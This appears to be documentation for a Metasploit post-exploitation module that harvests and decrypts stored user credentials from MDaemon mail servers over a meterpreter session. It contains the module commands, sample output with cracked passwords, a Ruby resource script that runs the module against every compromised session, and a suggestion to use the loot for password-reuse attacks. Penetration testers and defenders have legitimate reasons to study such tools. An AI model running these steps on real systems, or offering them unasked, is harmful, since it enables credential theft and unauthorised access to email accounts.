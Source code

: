 ## Vulnerable Application

Download and install the email server: [www.altn.com](http://www.altn.com/Downloads/MDaemon-Mail-Server-Free-Trial/)

You require a valid licence, but there's a demo for 30 days.

### Verified

1. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 64 bits.
2. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 32 bits. Worked,  but couldn't find the path through Register.
3. VM --> Microsoft Windows 7 on VMWare.

## Verification Steps

1. Get a meterpreter on a windows machine that has MDaemon installed.
2. Load the module: `use post/windows/gather/credentials/mdaemon_cred_collector`
3. Set the correct session on the module.
  1. Optional: you can add the remote path of the installation, especially if the software is installed on a strange path and the module can't find it..
4. Run the module and enjoy the loot.

## Example Run
**Normal mode**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > exploit 
```

Output:

```
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMPT credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.smtp_ser_754168.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.pop3_ser_608271.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.imap_ser_769125.txt
[*] Post module execution completed
```

**Verbose true**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > set verbose true
msf > exploit 
```

Output:

```
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:\Program Files
[*] Searching MDaemon installation at C:\Program Files (x86)
[*] Searching MDaemon installation at C:\Program Files
[*] Checking for Userlist in MDaemons directory at: C:\MDaemon\App
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*] Downloading UserList.dat file to tmp file: SFJOXMHZEFWA
[*] Cracking xJiKYdun7OvjVLnM
[*] Password p0%AhBxvs4IZ
[*] Cracking ocnTldjRpaejTg==
[*] Password Manuel123.
[*] Collected the following credentials:
[*]     Usernames: 2
[*]     Passwords: 2
[*] Deleting tmp file: SFJOXMHZEFWA
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMPT credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.smtp_ser_114741.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.pop3_ser_369240.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.imap_ser_028427.txt
[*] Post module execution completed
```

## Options

  **RPATH**
  The remote path of the MDaemon installation.
  If the machine runs on 64bits and the meterpreter is 32 bits, it won't be able to find the installation path in the registry, but it will search some default paths. If it is installed on a non-default path you can give the RPATH and it will work.

## Scenarios
**Run on all sessions**
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/mdaemon_cred_collector")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

**Meterpreter on email server**

If you have a meterpreter running on a server that has MDaemon installed, run the module and you will get all the users and passwords of the email server. Quite useful for trying password reuse and/or checking the strength of the passwords.

Note: MDaemon can store the passwords on a database, in that case the module won't work, but you can search for the database location, username and password and still get them :)


## References
http://www.securityfocus.com/bid/4686
https://github.com/AgoraSecurity/MdaemonCrack

